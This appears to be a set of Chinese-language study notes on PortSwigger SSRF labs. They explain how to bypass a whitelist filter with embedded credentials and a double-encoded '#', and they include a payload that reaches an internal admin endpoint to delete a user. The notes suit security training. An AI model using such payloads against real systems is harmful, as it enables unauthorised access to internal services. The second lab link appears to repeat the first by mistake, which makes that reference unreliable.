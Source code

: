 



### SSRF with whitelist-based input filter

关键点1：

```
http://username@stock.weliketoshop.net/
# @符号前面的内容被url解析器为url嵌入式的凭据
```

关键点2：

```
stockApi=http://127.0.0.1%2523@stock.weliketoshop.net:8080/admin/delete?username=carlos

%2523是#号的双重url编码，在url地址栏中#好后面的内容(直到遇到/号为止)被视为页面上的一个锚点，然后通过在反斜杠/后面添加响应的地址来表示url的有效地址。
```

LAB: https://portswigger.net/web-security/ssrf/lab-ssrf-with-whitelist-filter





### Blind SSRF with out-of-band detection

SSRF可能存在的点，与其他的漏洞一样，请求头当中的每一个字段，如host、referer这些都是可能存在SSRF漏洞的，因为它们的字段值通常是以url的形式，后台可能会对这些url做出一些请求。

LAB:https://portswigger.net/web-security/ssrf/lab-ssrf-with-whitelist-filter



### Blind SSRF with Shellshock exploitation

